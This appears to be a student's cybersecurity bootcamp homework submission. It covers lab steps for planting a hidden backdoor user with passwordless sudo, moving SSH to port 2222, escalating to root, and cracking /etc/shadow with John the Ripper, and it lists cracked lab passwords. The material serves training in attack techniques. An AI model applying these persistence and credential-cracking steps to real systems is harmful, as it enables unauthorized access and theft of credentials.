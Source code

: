 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - sudo useradd -M   -- i did it this way to make sure there is no home folder.

2. Give your secret user a password: 
    - sudo passwd sysd

3. Give your secret user a system UID < 1000:
    - usermod -u 900 sysd

4. Give your secret user the same GID:
   - groupmod -g 900 sysd

5. Give your secret user full `sudo` access without the need for a password:
   -  sudo visudo
   and then enter
   sysd    ALL=(ALL) NOPASSWD:ALL into the file

6. Test that `sudo` access works without your password:

    ```bash
    su sysd
    sudo -l
    sudo /etc/shadow
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:
    sudo nano /etc/ssh/sshd_config
    ```bash
    #Port 22
    Port 2222
    #AddressFamily any
    #ListenAddress 0.0.0.0
    #ListenAddress ::

    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - sudo systemctl restart ssh.service

2. Exit the `root` account:
    - exit

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

4. Use `sudo` to switch to the root user:
    - sudo su

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo su
    john /etc/shadow
    results:
    sysadmin:passw0rd:18387:0:99999:7:::
    student:Goodluck!:18387:0:99999:7:::
    mitnik:trustno1:18387:0:99999:7:::
    babbage:freedom:18387:0:99999:7:::
    lovelace:dragon:18387:0:99999:7:::
    stallman:computer:18387:0:99999:7:::
    turing:lakers:18387:0:99999:7:::
    sysd:test:18826:0:99999:7:::
    
---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

